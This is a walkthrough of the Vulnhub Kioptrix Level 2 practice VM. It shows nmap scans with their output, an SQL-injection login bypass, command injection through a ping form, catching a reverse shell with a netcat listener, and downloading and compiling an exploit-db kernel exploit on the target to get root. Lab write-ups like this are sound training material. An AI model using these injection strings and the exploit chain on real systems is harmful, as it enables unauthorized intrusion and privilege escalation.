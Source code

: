 ```yaml
---
title : "Kioptrix 2 - Walkthrough"
date : 21-10-2024
categories : [Writeups,Vulnhub]
tags : [Vulnhub,OSCP]
---
```



![image source — techyrick.com](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*dbY1LPvaWVR_kkE9GoiqtA.jpeg)

**Setup:**

Download VM from this [link](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

1.  Extract and open the VM in VMware.
2.  Issues faced that network adaptor changes to bridged automatically and not assigned any IP when you do netdiscover in kali.
3.  To overcome this, Open .vmx file in the vm folder, search for the term “bridged”, two results will be shown, delete the line of first result, and change the word “bridged” to “nat” in second result.
4.  Open the vm and use netdiscover to find the IP assigned to the kioptrix Level 2.

Find IP using netdiscover command

```bash
netdiscover -r 192.168.211.0/24
```

kioptrix IP — 192.168.211.132

Start Port scan using nmap

```bash
nmap -F -sV 192.168.211.132
```

Output

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 15:58 IST
Nmap scan report for 192.168.211.132
Host is up (0.0018s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:49:DE:5B (VMware)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```
```bash
nmap -sC -sV -O -oA initial 192.168.211.132
```

*   sC - run default nmap scripts -sV - detect service version -O - detect OS -oA - output all formats and store in file _initial_

```bash
# Nmap 7.93 scan initiated Sun May 14 16:00:34 2023 as: nmap -sC -sV -O -oA initial 192.168.211.132
Nmap scan report for 192.168.211.132
Host is up (0.00072s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:49:DE:5B (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32, Linux 2.6.9, Linux 2.6.9 - 2.6.24, Linux 2.6.9 - 2.6.30, Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 14 16:01:00 2023 -- 1 IP address (1 host up) scanned in 26.42 seconds
```

as we see port 80 is open, go to the chrome and put kioptrix 2 IP, to check website available for us,

There a page with username and password is shown, try basic sql injection methods,

Try - "admin' OR 1=1 -- -" in username field, password as blank, you will get successful login

```bash
admin' OR 1=1 -- -
```

After it will redirect to a page, called Ping a Machine on the Network:, there you can put IP it will ping for us,

So lets test other command like 'whoami' combined with ping using semicolon ';'

as we see we will get output of the command we combined.

So lets make reverse shell, using Reverse shell generator using this [link](https://www.revshells.com/)

Create listener using netcat - "nc -lvnp {listener port}"

Paste the code in the box, and wait for the connection

```bash
root@Kali# nc -lvnp 455
listening on [any] 455 ...
connect to [192.168.211.128] from (UNKNOWN) [192.168.211.132] 33064
```

As we see, We got shell back

```bash
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ lsb_release -a
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:    CentOS
Description:    CentOS release 4.5 (Final)
Release:    4.5
Codename:    Final
```

So as per enum, we got centOS version, that can be exploit which leads to elevated shell, using this [exploit](https://www.exploit-db.com/download/9542)

Headover to /tmp directory and download exploit using 'wget'

```bash
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9542
bash-3.00$ ls
9542
logwatch.miaC5174
```

compile useing gcc and run the exploit to get elevated root shell

```bash
bash-3.00$ mv 9542 9542.c
bash-3.00$ gcc -o pwn 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
9542.c
logwatch.miaC5174
pwn
bash-3.00$ ./pwn    
sh: no job control in this shell
sh-3.00# sh-3.00# whoami
root
sh-3.00#
```

Thanks for the time spent